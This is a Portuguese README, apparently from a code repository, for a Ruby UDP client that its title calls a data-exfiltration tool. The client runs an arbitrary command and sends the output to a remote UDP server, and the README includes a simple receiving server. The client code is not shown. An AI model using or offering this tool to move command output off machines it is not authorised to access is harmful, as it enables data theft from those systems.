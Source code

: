 # Cliente UDP em Ruby para exfiltração de dados

Este é um cliente UDP simples em Ruby que permite enviar o resultado de comandos especificados como parâmetro para um servidor UDP em uma máquina remota.

## Pré-requisitos

Antes de usar este cliente, verifique se você atende aos seguintes requisitos:

- Ruby instalado na sua máquina.
- Permissões para executar comandos no sistema operacional local.

## Uso

Siga estas etapas para usar o cliente UDP em Ruby:

1. Abra um terminal.
2. Navegue até o diretório onde o código Ruby está localizado.

### Comandos

O cliente espera um comando como argumento na linha de comando. Você pode especificar qualquer comando que você normalmente executaria no terminal. O resultado desse comando será enviado ao servidor UDP.

Para executar o cliente e enviar o resultado de um comando, utilize o seguinte formato:

```bash
ruby udp_client.rb "seu_comando_aqui"
```

Substitua "seu_comando_aqui" pelo comando que você deseja executar. Por exemplo:

```bash
ruby udp_client.rb "ls -l"
```

### Resultado
O cliente UDP enviará o resultado do comando especificado para o servidor UDP remoto, que deve estar em execução no IP e porta configurados nas variáveis target_host e target_port no código Ruby.

O resultado enviado para o servidor será impresso no console após o envio bem-sucedido.

Exemplo de Servidor UDP
Para que este cliente funcione corretamente, você também precisa configurar um servidor UDP para receber os dados enviados. Aqui está um exemplo simples de um servidor UDP em Ruby:

```ruby
require "socket"

IP = "0.0.0.0"
PORT = 4321
bufferSize = 4096

server = UDPSocket.new
server.bind(IP, PORT)

loop do
  bytes_address = server.recvfrom(bufferSize)
  message = bytes_address[0]
  address = bytes_address[1]

  # Faça o processamento necessário com a mensagem recebida, se desejado.
  
  puts "Mensagem recebida de #{address[3]}:#{address[1]}:"
  puts message
end
```

Este é apenas um exemplo básico de um servidor UDP. Você pode personalizá-lo para atender às suas necessidades específicas.

Lembre-se de que é importante que o cliente e o servidor estejam configurados com as mesmas configurações de IP e porta para que a comunicação funcione corretamente. Certifique-se de ajustar essas configurações conforme necessário.
